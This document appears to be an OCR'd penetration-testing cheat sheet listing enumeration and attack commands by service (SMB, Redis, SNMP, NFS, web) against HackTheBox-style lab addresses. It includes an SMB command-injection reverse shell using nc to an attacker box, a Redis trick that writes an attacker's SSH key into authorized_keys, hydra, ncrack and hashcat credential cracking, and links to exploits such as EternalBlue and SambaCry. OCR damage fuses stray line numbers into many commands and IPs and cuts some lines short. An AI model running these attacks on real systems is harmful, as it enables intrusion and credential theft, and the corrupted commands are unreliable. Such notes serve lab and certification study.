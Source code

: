 
anonymous login check
ftp <ip address>
username : anonymous
pwd : anonymous
file upload -> put shell.php
SSH : (Port 22)
id_rsa.pub : Public key that can be used in authorized_keys for login
id_rsa : Private key that is used for login. Might ask for password. can be cracked with
ssh2john and john
id_rsa
ssh -i id_rsa user@10.10.10.x
For passwordless login, add id_rsa.pub to target's authorized_keys
ssh2john
DNS Zone transfer check : (Port 53)
If port 53 is open
Add host to /etc/hosts
dig axfr smasher.htb @10.10.10.135
https://ghostphisher.github.io/smasher2
Add the extracted domain to /etc/hosts and dig again
RPC Bind (111)
rpcclient --user="" --command=enumprivs -N 10.10.10.101
rpcinfo –p 10.10.10.102
rpcbind -p 10.10.10.103
RPC (135)
rpcdump.py 10.11.1.121 -p 1351
rpcdump.py 10.11.1.121 -p 135 | grep ncacn_np // get pipe names2
3
rpcmap.py ncacn_ip_tcp:10.11.1.121[135]4
SMB (139 & 445)
https://0xdf.gitlab.io/2018/12/02/pwk-notes-smb-enumeration-checklist-update1.html
nmap --script smb-protocols 10.10.10.101
2
smbclient -L //10.10.10.103
smbclient -L //10.10.10.10 -N // No password (SMB Null session)4
smbclient --no-pass -L 10.10.10.105
smbclient //10.10.10.10/share_name6
7
smbmap -H 10.10.10.108
smbmap -H 10.10.10.10 -u '' -p ''9
smbmap -H 10.10.10.10 -s share_name10
11
crackmapexec smb 10.10.10.10 -u '' -p '' --shares12
crackmapexec smb 10.10.10.10 -u 'sa' -p '' --shares13
crackmapexec smb 10.10.10.10 -u 'sa' -p 'sa' --shares14
crackmapexec smb 10.10.10.10 -u '' -p '' --share share_name15
16
enum4linux -a 10.10.10.1017
18
rpcclient -U "" 10.10.10.1019
* enumdomusers20
* enumdomgroups21
* queryuser [rid]22
* getdompwinfo23
* getusrdompwinfo [rid]24
25
ncrack -u username -P rockyou.txt -T 5 10.10.10.10 -p smb -v26
27
mount -t cifs "//10.1.1.1/share/" /mnt/wins28
29
mount -t cifs "//10.1.1.1/share/" /mnt/wins -o vers=1.0,user=root,uid=0,gid30
31
SMB Shell to Reverse Shell :32
33
smbclient -U "username%password" //192.168.0.116/sharename34
smb> logon “/=nc ‘attack box ip’ 4444 -e /bin/bash"35
36
Checklist :37
* Samba symlink directory traversal attack38
SMB Exploits :
Samba "username map script" Command Execution - CVE-2007-2447
Version 3.0.20 through 3.0.25rc3
Samba-usermap-exploit.py -
https://gist.github.com/joenorton8014/19aaa00e0088738fc429cff2669b9851
Eternal Blue - CVE-2017-0144
SMB v1 in Windows Vista SP2; Windows Server 2008 SP2 and R2 SP1; Windows 7
SP1; Windows 8.1; Windows Server 2012 Gold and R2; Windows RT 8.1; and
Windows 10 Gold, 1511, and 1607; and Windows Server 2016
https://github.com/adithyan-ak/MS17-010-Manual-Exploit
SambaCry - CVE-2017-7494
4.5.9 version and before
https://github.com/opsxcq/exploit-CVE-2017-7494
SNMP (161)
snmpwalk -c public -v1 10.0.0.01
snmpcheck -t 192.168.1.X -c public2
onesixtyone -c names -i hosts3
nmap -sT -p 161 192.168.X.X -oG snmp_results.txt4
snmpenum -t 192.168.1.X5
IRC (194,6667,6660-7000)
nmap -sV --script irc-botnet-channels,irc-info,irc-unrealircd-backdoor -p 194,6660-7000
irked.htb
https://github.com/Ranger11Danger/UnrealIRCd-3.2.8.1-Backdoor (exploit code)
NFS (2049)
showmount -e 10.1.1.27
mkdir /mnt/nfs
mount -t nfs 192.168.2.4:/nfspath-shown /mnt/nfs
Permission Denied ? (https://blog.christophetd.fr/write-up-vulnix/)
MYSQL (3306)
nmap -sV -Pn -vv 10.0.0.1 -p 3306 --script mysql-audit,mysql-databases,mysql-dump-
hashes,mysql-empty-password,mysql-enum,mysql-info,mysql-query,mysql-users,mysql-
variables,mysql-vuln-cve2012-2122
Redis (6379)
In the output of config get * you could find the home of the redis user (usually /var/lib/redis
or /home/redis/.ssh), and knowing this you know where you can write the
authenticated_users file to access via ssh with the user redis. If you know the home of other
valid user where you have writable permissions you can also abuse it:
1. Generate a ssh public-private key pair on your pc: ssh-keygen -t rsa
2. Write the public key to a file :
(echo -e "\n\n"; cat ./.ssh/id_rsa.pub; echo -e "\n\n") > foo.txt
3. Import the file into redis : cat foo.txt | redis-cli -h 10.10.10.10 -x set crackit
4. Save the public key to the authorized_keys file on redis server:
root@Urahara:~# redis-cli -h 10.85.0.521
10.85.0.52:6379> config set dir /home/test/.ssh/2
OK3
10.85.0.52:6379> config set dbfilename "authorized_keys"4
OK5
10.85.0.52:6379> save6
OK7
Port Knocking :
TCP1
knock -v 192.168.0.116 4 27391 1592
3
UDP4
knock -v 192.168.0.116 4 27391 159 -u5
6
TCP & UDP7
knock -v 192.168.1.111 159:udp 27391:tcp 4:udp8
Misc :
Run autorecon
https://github.com/s0wr0b1ndef/OSCP-
note/blob/master/ENUMERATION/enumeration
IF NOTHING WORKS
HTB Admirer (https://www.youtube.com/watch?
v=_zMg0fHwwfw&ab_channel=IppSec)
Bruteforce
Directory Bruteforce
Cewl :
cewl -d 2 -m 5 -w docswords.txt http://10.10.10.101
2
-d depth3
-m minimum word length4
-w output file5
--lowercase lowercase all parsed words (optional)6
Password / Hash Bruteforce
Hashcat :
https://hashcat.net/wiki/doku.php?id=example_hashes // m parameter
https://mattw.io/hashID/types // hashid match
hashcat -m 0 'hash$' /home/kali/Desktop/rockyou.txt // MD5 raw1
hashcat -m 1800 'hash$' /home/kali/Desktop/rockyou.txt // sha512crypt2
hashcat -m 1600 'hash$' /home/kali/Desktop/rockyou.txt // MD5(APR)3
hashcat -m 1500 'hash$' /home/kali/Desktop/rockyou.txt // DES(Unix), Tradit4
hashcat -m 500 'hash$' /home/kali/Desktop/rockyou.txt // MD5crypt, MD5 (Uni5
hashcat -m 400 'hash$' /home/kali/Desktop/rockyou.txt // Wordpress6
John :
john hashfile --wordlist=/home/kali/Desktop/rockyou.txt --format=raw-md5
Online tools :
https://crackstation.net/
LM, NTLM, md2, md4, md5, md5(md5_hex), md5-half, sha1, sha224, sha256,
sha384, sha512, ripeMD160, whirlpool, MySQL 4.1+ (sha1(sha1_bin)),
QubesV3.1BackupDefaults
https://www.dcode.fr/tools-list
MD4, MD5, RC4 Cipher, RSA Cipher, SHA-1, SHA-256, SHA-512, XOR Cipher
https://www.md5online.org/md5-decrypt.html (MD5)
https://md5.gromweb.com/ (MD5)
Protocols Bruteforce
Hydra
TELNET, FTP, HTTP, HTTPS, HTTP-PROXY, SMB, SMBNT, MS-SQL, MYSQL, REXEC, irc,
RSH, RLOGIN, CVS, SNMP, SMTP, SOCKS5, VNC, POP3, IMAP, NNTP, PCNFS, XMPP, ICQ,
SAP/R3, LDAP2, LDAP3, Postgres, Teamspeak, Cisco auth, Cisco enable, AFP,
Subversion/SVN, Firebird, LDAP2, Cisco AAA
Medusa
AFP, CVS, FTP, HTTP, IMAP, MS-SQL, MySQL, NetWare NCP, NNTP, PcAnywhere, POP3,
PostgreSQL, REXEC, RLOGIN, RSH, SMBNT, SMTP-AUTH, SMTP-VRFY, SNMP, SSHv2,
Subversion (SVN), Telnet, VMware Authentication Daemon (vmauthd), VNC, Generic
Wrapper, Web Form
Ncrack (Fastest)
RDP, SSH, http(s), SMB, pop3(s), VNC, FTP, telnet
SSH
ncrack -v -U user.txt -P pass.txt ssh://10.10.10.10:<port> -T51
hydra -L users.txt -P pass.txt 192.168.0.114 ssh2
Wordlist
// For removing duplications in wordlist1
cat wordlist.txt| sort | uniq > new_word.txt2
SMB :
ncrack -u qiu -P rockyou.txt -T 5 192.168.0.116 -p smb -v
HTTP Post
hydra -L users.txt -P rockyou.txt 10.10.10.10 http-post-form "/login.php:use
80, 443
Checklist
View SSL certificates for usernames
View Source code
Check /robots.txt, .htaccess, .htpasswd
Check HTTP Request
Run Burp Spider
View Console
Use Nikto
Check OPTIONS
HTTP PUT / POST File upload
Parameter fuzzing with wfuzz
Browser response vs Burp response
Shell shock (cgi-bin/status)
Cewl wordlist and directory bruteforce
nmap --script http-enum 192.168.10.55
Apache version exploit & other base server exploits
Port 443 :
nmap -Pn -sV --script ssl* -p 443 10.10.10.60 -A -T5
Heartbleed ( sslyze --heartbleed <ip> )
Heartbleed exploit code (https://gist.github.com/eelsivart/10174134)
Shellshock
Poodle
IIS :
https://book.hacktricks.xyz/pentesting/pentesting-web/iis-internet-information-services
Try changing file.asp file to file.asp.txt to reveal the source code of the files
Apache :
Struts (https://github.com/LightC0der/Apache-Struts-0Day-Exploit)
Shell shock (https://www.exploit-db.com/exploits/34900)
OpenFuck (https://github.com/exploit-inters/OpenFuck)
Directory Enumeration
Apache : x -> php, asp, txt, xml, bak
IIS : x-> asp, aspx, txt, ini, tmp, bak, old
Gobuster quick directory busting
gobuster dir -w /usr/share/seclists/Discovery/Web_Content/common.txt -t 80 -
Gobuster search with file extension
gobuster dir -w /usr/share/seclists/Discovery/Web_Content/common.txt -t 1001
2
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.tx3
4
gobuster dir -w /usr/share/seclists/Discovery/Web-Content/raft-medium-direc5
Gobuster comprehensive directory busting
gobuster -s 200,204,301,302,307,403 -w /usr/share/seclists/Discovery/Web_Con
gobuster dir -t 100 -w /usr/share/wordlists/dirbuster/directory-list-2.3-
medium.txt -k -u http://10.10.10.x
-k (ignore ssl verification)
-x specific extension
Dirbuster
Change wordlists (Wfuzz, dirb)
Custom directory enumeration (HTB Obscurity)
wfuzz -c -z file,common.txt -u
http://10.10.10.168:8080/FUZZ/SuperSecureServer.py
